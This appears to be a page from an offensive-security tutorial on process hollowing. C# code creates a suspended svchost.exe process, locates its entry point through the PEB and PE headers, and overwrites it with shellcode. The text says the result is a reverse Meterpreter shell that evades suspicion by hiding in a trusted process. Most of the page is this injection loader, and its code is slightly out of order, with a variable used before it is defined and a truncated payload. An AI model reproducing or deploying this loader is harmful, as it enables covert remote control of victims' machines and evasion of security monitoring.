 We'll create a new Console App project in Visual Studio, and name it "Hollow". We'll then find the DllImport for CreateProcessW from www.pinvoke.net, and add it to our project. To import CreateProcessW, we must also include the System.Threading namespace.
It is worth noting that a memory address takes up eight bytes in a 64-bit process, while it only uses four bytes in a 32-bit process, so the use of variable types, offsets, and amount of data read must be adapted.
we must remember to specify a 64-bit architecture (since svchost.exe is a 64-bit process) and change it from "debug" to "release" before compiling.

While the code and technique here only writes shellcode into the suspended process, we could also use this technique to hollow an entire compiled EXE.


      [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
      static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, 
          IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, 
              uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, 
                  [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
      
      [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
      private static extern int ZwQueryInformationProcess(IntPtr hProcess, 
          int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, 
              uint ProcInfoLen, ref uint retlen);
      
      
        [DllImport("kernel32.dll", SetLastError = true)]
      static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
          [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
      
      [DllImport("kernel32.dll", SetLastError = true)]
      private static extern uint ResumeThread(IntPtr hThread);
      
      STARTUPINFO si = new STARTUPINFO();
      PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
      
      bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, 
          IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
      
      PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
      uint tmp = 0;
      IntPtr hProcess = pi.hProcess;
      ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
      
      byte[] addrBuf = new byte[IntPtr.Size];
      IntPtr nRead = IntPtr.Zero;
      ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
      
      IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
      
      byte[] data = new byte[0x200];
      ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
      
      uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
      
      uint opthdr = e_lfanew_offset + 0x28;
      
      uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
      
      IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
      
      byte[] buf = new byte[659] {
      0xfc,0x48,0x83,0xe4,0xf0,0xe8...
      
      WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
      
      IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
      
      ResumeThread(pi.hThread);



When we execute it, the compiled code results in a reverse Meterpreter shell executing inside a svchost.exe process, possibly evading suspicion since it is a trusted process that also engages in network communications.
